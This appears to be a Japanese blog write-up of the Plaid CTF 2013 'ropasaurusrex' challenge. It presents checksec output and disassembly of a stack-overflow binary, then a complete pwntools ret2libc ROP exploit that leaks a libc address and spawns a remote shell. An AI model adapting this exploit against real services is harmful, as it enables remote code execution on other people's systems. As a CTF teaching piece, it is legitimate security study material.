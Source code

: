 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/02/15/plaidctf-2013-ropasaurusrex/
date: 2016-02-15T23:20:14+09:00
tags: [ "ctf", "writeup", "pwn", "plaidctf", "return-oriented-programming", "buffer-overflow", "stack-overflow" ]
---
```


# Plaid CTF 2013 ropasaurusrex

binary読んだり脆弱性探したりする必要がなく単にropするだけなのでとても楽。

## [ropasaurusrex](http://shell-storm.org/repo/CTF/PlaidCTF-2013/Pwnable/ropasaurusrex-200/)

``` sh
$ file ropasaurusrex
ropasaurusrex: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=96997aacd6ee7889b99dc156d83c9d205eb58092, stripped

$ checksec --file ropasaurusrex
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   ropasaurusrex
```

xinetd型。relro無し。canary無し。libcは与えられる。

``` sh
$ ll ropasaurusrex
-rwxr-xr-x 1 user user 2948 Apr 22  2013 ropasaurusrex
```

コードはとても短かくて、実質以下のふたつの関数のみからなる。

``` asm
080483f4 <bof>:
 80483f4:       55                      push   ebp
 80483f5:       89 e5                   mov    ebp,esp
 80483f7:       81 ec 98 00 00 00       sub    esp,0x98
 80483fd:       c7 44 24 08 00 01 00    mov    DWORD PTR [esp+0x8],0x100
 8048404:       00 
 8048405:       8d 85 78 ff ff ff       lea    eax,[ebp-0x88]
 804840b:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 804840f:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 8048416:       e8 11 ff ff ff          call   804832c <read@plt>
 804841b:       c9                      leave  
 804841c:       c3                      ret    

0804841d <main>:
 804841d:       55                      push   ebp
 804841e:       89 e5                   mov    ebp,esp
 8048420:       83 e4 f0                and    esp,0xfffffff0
 8048423:       83 ec 10                sub    esp,0x10
 8048426:       e8 c9 ff ff ff          call   80483f4 <bof>
 804842b:       c7 44 24 08 04 00 00    mov    DWORD PTR [esp+0x8],0x4
 8048432:       00 
 8048433:       c7 44 24 04 10 85 04    mov    DWORD PTR [esp+0x4],0x8048510 # "WIN\n"
 804843a:       08 
 804843b:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 8048442:       e8 c5 fe ff ff          call   804830c <write@plt>
 8048447:       c9                      leave  
 8048448:       c3                      ret    
```

### 攻撃

普通にropする。`read`のアドレスを`write`して脆弱性のある関数を呼び出し、得られた`read`のアドレスから`system`と`"/bin/sh"`を計算し、再度ropしこれを呼ぶ。

### 実装

`objdump -R ropasaurusrex | grep read`とかして出てきたアドレスをコピペして即値として使ってたらコピペミスが発生したので、ちゃんとpwnlibの[機能](http://pwntools.readthedocs.org/en/2.2/elf.html)を使いました。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()

elf = ELF('./ropasaurusrex')
if args.host == 'localhost':
    libc = ELF('/usr/lib32/libc.so.6')
else:
    libc = ELF('./libc.so.6')

bof = 0x80483f4 # the vulnerable function
buffer_len = 0x88

context.log_level = 'debug'
p = remote(args.host, args.port)

payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(elf.symbols['write'])
payload += p32(bof)
payload += p32(1) # stdout
payload += p32(elf.got['read'])
payload += p32(4) # len
p.send(payload)
resp = p.recvn(4)
read = u32(resp)
libc_base = read - libc.symbols['read']

payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(libc_base + libc.symbols['system'])
payload += 'AAAA' # cont
payload += p32(libc_base + next(libc.search('/bin/sh')))
p.send(payload)

p.sendline('ls')
p.interactive()
```
